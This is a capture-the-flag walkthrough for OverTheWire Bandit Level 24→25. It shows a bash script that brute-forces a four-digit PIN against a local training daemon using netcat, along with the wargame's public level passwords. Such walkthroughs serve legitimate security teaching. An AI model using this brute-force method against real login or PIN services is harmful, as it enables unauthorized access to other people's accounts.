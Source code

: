 ```yaml
---
layout: default
title: Level 24 → Level 25
order: 25
---
```


# [Level 24 → Level 25](https://overthewire.org/wargames/bandit/bandit25.html)
After logging in with 

`ssh bandit24@bandit.labs.overthewire.org -p 2220`

Password: `gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8`

the game tells us that a daemon is listening on port 30002 that will print back the password for bandit25 if given the password for bandit 24 followed by a 4 digit pin-code (that we will have to bruteforce). 

Let's look at the script the daemon is running by connecting via netcat like we did in [Level 14 → Level 15]({{ site.baseurl }}/bandit/level-14_to_level-15):

`nc localhost 30002`

This will return the script's description:

```
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
```

This means that we need to write a script that sends the password for bandit24 and the secret pincode (a number between 0000 and 9999), separated by a space. To do this, let's move into a temporary directory `cd /tmp` first, then `mktemp -d` and `cd /tmp.9dtiJmbqOqand` (where 9dtiJmbqOq is the name of your temporary directory). Then create a `bruteforce.sh` file with `touch bruteforce.sh` and edit it with `nano bruteforce.sh`. 

Let's write our script:

```
#!/bin/bash

for i in {0000..9999}
do
    echo gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i >> tries.txt
done

cat tries.txt | nc localhost 30002 > res.txt
```

---
**NOTE**

Remember to put your password for bandit24 as it will change.

---

This will print all combinations inside `tries.txt`, then write all outcomes in `res.txt`. Let's give this file esecuting permissions with `chmod +x bruteforce.sh`, then run it.

By running `ls` we instantly see that the `tries.txt` and `res.txt` have been created.

By using `cat res.txt` we can see that all failed attempts return the same message: 

```
Wrong! Please enter the correct current password and pincode. Try again.
```

This means that we can get the password by using sort, just like we did in [Level 8 → Level 9]({{ site.baseurl }}/bandit/level-8_to_level-9) and grep, like we did in [Level 7 → Level 8]({{ site.baseurl }}/bandit/level-7_to_level-8) to filter out lines that contain a certain word:

```
sort res.txt | grep -v "again"
```

or we could also use uniq -u, as we did, again, in [Level 7 → Level 8]({{ site.baseurl }}/bandit/level-7_to_level-8)

```
uniq -u res.txt
```

`sort` will return:

```
Correct!
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
The password of user bandit25 is iCi86ttT4KSNe1armKiwbQNmB3YJP3q4
```

while uniq -u will return:

```
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Correct!
The password of user bandit25 is iCi86ttT4KSNe1armKiwbQNmB3YJP3q4
```

in both cases the password for our next level will be:

> `iCi86ttT4KSNe1armKiwbQNmB3YJP3q4`
